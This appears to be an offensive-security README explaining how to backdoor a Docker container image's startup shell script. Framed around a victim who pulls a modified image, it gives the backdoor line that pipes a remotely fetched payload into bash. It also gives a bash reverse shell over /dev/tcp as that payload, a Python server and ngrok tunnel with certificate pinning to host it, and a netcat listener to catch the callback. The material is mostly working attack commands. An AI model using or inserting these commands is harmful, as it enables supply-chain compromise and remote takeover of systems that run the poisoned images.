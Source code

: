 # Backdoored shell script in container image

**Description:** This entry describes how to setup a shell script to backdoor container images

**Requirements:** docker, curl, python, ngrok

## Scenario

You have the acccess to modify docker images either through source that contains a shell script called in the Dockerfile or through an image registry. The shell script that you can modify runs on startup (a pretty common scenario)

## Building the image

First you need to build the image. This is emulating the process that will take place whenever the target image is built. Based on our scenario the victim will either be pulling in the modified source shell script or you replaced the image in the registry after updating the shell script.

The line that ends up backdooring the image will be the following:

```
curl -s http://<ip_address>:8000/payload.txt | bash
```

For added security use public key pinning (See the section [Using ngrok for your payload server address](https://github.com/sneakerhax/TTPs/tree/main/5.Command_and_Control/Docker/backdoored_image_sh#using-ngrok-for-your-payload-server-address)):

```
curl -Iksv --pinnedpubkey sha256//0 https://<your_site>.com
```

Use the value from output called public key hash (This is the format curl will expect in the next command)

```
curl -sk --pinnedpubkey <format>//<key_hash> https://<your_site>.com
```

This will curl the website with the public key pinned (-k is used if you have a self signed certificate)

### Build the image

* Update line 4 with the ip address of your payload server

```
docker build -t backdoor .
```

## Setting up the payload server

Next you need to setup the server that will host the file containing your payload. The payload can be anything you want to execute when the container is started. In this example we will use a reverse shell that calls back to a netcat server. I'm using python SimpleHTTPServer to host the file but this can be setup other ways as long as the file can be accessed.

### Create the payload file

```
touch payload.txt
```


### Add your payload (in this example the reverse shell)

```
nohup bash -c bash -i >& /dev/tcp/<ip_address>/8080 0>&1
```

* This payload example can be found in payload.txt
* Update the ip address and port with the values for your netcat server

### Starts a server on port 8000 by default

```
python3 -m http.server
```

### Using ngrok for your payload server address

```
ngrok http 8000 -bind-tls=true
```

Starts an ngrok listener and gives you a public address (You will need to follow the [Building the image](https://github.com/sneakerhax/OffensiveDocker/tree/main/Labs/backdoored_image_sh#building-the-image) section to grab the certificate)

## Start your Netcat handler

This step is only required if you choose to make your payload a reverse shell. This step will start a netcat server that will handle the callback from your reverse shell.

### Start the netcat listener

```
netcat -lkvp 8080
```

## Start your container

This step emulates what will occur when the backdoored image is deployed and the container starts. The script in the case will only execute once when the container is started

### Start the Docker container (execute the payload)

```
docker run -it backdoor
```

If everything goes according to plan you should get a callback similar to the this [tweet](https://twitter.com/sneakerhax/status/1416870516976099330?s=20)

## References
* none
